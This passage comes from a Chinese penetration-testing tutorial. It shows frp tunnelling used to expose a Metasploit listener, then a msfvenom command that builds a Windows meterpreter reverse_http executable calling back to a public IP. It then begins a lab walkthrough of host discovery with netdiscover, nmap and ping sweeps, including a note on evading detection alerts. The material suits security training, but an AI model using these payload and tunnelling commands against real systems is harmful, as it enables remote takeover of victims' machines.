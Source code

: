 ## 6.5 frp实现内网穿透

服务端默认监听端口是7000，执行命令，启动服务端 ./frps -c ./frps.ini  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f6ee255c99d5ca1a5b7cc8b97dd34ecf.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-e4f3565a9067a4162218d2717496eb35.png)  
启动客户端frpc配置文件:  
\[msf\]  
type = tcp  
local\_ip = 本地ip地址  
local\_port = 22222 转发给本机的22222端口，也就是msf的监听端口  
remote\_port = 6000 服务端打开6000端口进行监听  
执行命令连接服务端：./frpc -c ./frpc.ini  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-490bbb21ac64ca3b51da14311108fb61.png)  
服务端显示有客户端连接：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-ed488bcf387402b6d55f57bdaf2786f0.png)  
服务端开启6000端口进行监听  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f7124f1791bb7222893a55e9198d6cfd.png)  
Msf生成exe文件：  
msfvenom -p windows/meterpreter/reverse\_http lhost=公网ip lport=公网ip监听的端口 -f exe -o h4.exe  
执行exe上线：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b97b2af0d67c8d9c2f139e96498c9318.png)

# 七、靶场实践

## 7.1 信息收集

这个靶场是月师傅所搭，我们用这个靶场作为实践，靶场拓扑图：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-bf33f8328c4afcb2803c2397613734d1.png)  
先进行主机发现，方法有许多，分别是基于层面和工具上的不同：  
1、使用netdiscover  
sudo netdiscover -i eth0 -r 192.168.202.0/24  
专用的二层发现工具。拥有主动和被动发现两种方式。  
常用参数:  
\-i：网卡 选择你监控的网卡。比如eth0  
\-r：range 指定IP段。比如192.168.0.0/24  
\-l：filename 从文件读取range列表  
\-p 被动模式。默默的侦听指定的网卡以发现别的二层主机  
\-t ARP包发送间隔。单位毫秒。这个可以用来规避检测系统的告警。  
\-c 发包数量  
2、使用nmap  
nmap -v -sP 192.168.202.0/24  
以上参数：  
\-sP、ICMP扫描： 类似于ping检测，快速判断目标主机是否存活，不做其他扫描  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8c57f5eb4b213a789c4fd2678ddf59a8.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-06679db73e458bd53d1e527352475535.png)  
3、使用系统自带ping(速度稍慢)  
for /L %I in (1,1,256) DO @ping -w 1 -l 1 192.168.202.%I | findstr “TTL=”  
fping -g 10.10.10.0/24
